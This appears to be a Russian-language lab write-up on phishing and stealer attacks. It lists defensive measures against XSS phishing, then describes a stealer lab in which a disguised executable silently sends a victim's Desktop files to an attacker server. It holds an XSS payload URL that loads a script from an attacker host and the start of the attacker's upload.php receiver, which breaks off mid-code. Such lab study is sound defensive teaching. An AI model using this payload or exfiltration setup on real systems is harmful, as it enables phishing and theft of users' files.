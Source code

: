 ```http://192.168.0.69:2222/dashboard.php?payload=<script src="http://192.168.0.114:1111/phishing.js"></script>```
-	фильтры почтового клиента и расширения антифишинга. Установка плагинов, блокирующих подозрительные сценарии XSS и предупреждающих о небезопасных ссылках, снижает риск перехода по вредоносному URL;
-	кибергигиена. Регулярное обучение персонала распознаванию фишинговых писем, проверке вложений и ссылок, соблюдению принципа «не доверяй – проверяй».
Защита от фишинговой атаки в инфраструктуре организации со стороны администратора:
-	content security policy (CSP). Жёсткая политика script-src и default-src позволяет загрузку скриптов только с доверенных доменов, блокуя подстановку внешних файлов вида http://192.168.0.114:1111/phishing.js;
-	фильтрация и экранирование пользовательского ввода. Валидация параметров URL и заголовков исключает внедрение произвольного JavaScript через GET‑параметры (payload);
-	HTTP‑заголовки безопасности. Включение X-Content-Type-Options: nosniff, X-Frame-Options: DENY, Referrer-Policy и Strict-Transport-Security ограничивает возможности XSS и фишинга;
-	антифишинговые шлюзы и почтовые фильтры. Настройка DMARC, SPF и DKIM уменьшает вероятность доставки поддельных писем от имени корпоративного домена [20];
-	мониторинг и журналирование. Логи веб‑сервера и IDS/IPS‑системы позволяют обнаружить аномальные запросы, содержащие кодированные <script>‑теги или частые обращения к steal.php;
-	обучение и регламенты реагирования. Регулярные киберучения с имитацией фишинг‑сценариев повышают готовность сотрудников службы ИБ к быстрому обнаружению и блокированию подобных атак.


## 3 📂 Атака методом сбора данных с помощью вредоносного ПО (Stealer)

Стиллер-атака демонстрирует эксплуатацию уязвимости **CWE-200**. Злоумышленник распространяет исполняемый файл, маскирующийся под безобидное приложение. После запуска он незаметно собирает файлы пользователя и отправляет их на удалённый сервер.  

---

### 🔹 Лабораторный стенд

**Таблица 3 — Конфигурация стенда для stealer-атаки**

| IP-адрес / Порт    | Роль                   | Описание |
|---------------------|-----------------------|----------|
| `192.168.0.89`      | Клиент *(Windows 10)* | Жертва — запускает вредоносный `.exe`, собирающий файлы |
| `192.168.0.114:2222`| Злоумышленник *(Debian)* | Хостинг `upload.php`, приём файлов в каталог `uploads/` |

---

### 🛠 Реализация атаки

1. На рабочей станции пользователя запускается подготовленный исполняемый файл.  
2. В фоне утилита рекурсивно обходит каталог **Desktop** и его подпапки.  
3. Все найденные документы упаковываются и поочерёдно отправляются методом `POST` на сервер злоумышленника.  
4. Серверный обработчик `upload.php` принимает файлы и сохраняет их в директории `uploads/`.  
5. Пользователь не замечает активности — процесс выполняется без визуальных признаков.  

---

### 🗃 Сервер злоумышленника

**upload.php**
```php
<?php
$targetDir = __DIR__ . "/uploads/";
if (!is_dir($targetDir)) {
    mkdir($targetDir, 0755, true);
}
if (isset($_FILES['file']) && $_FILES['file']['error'] === UPLOAD_ERR_OK) {
```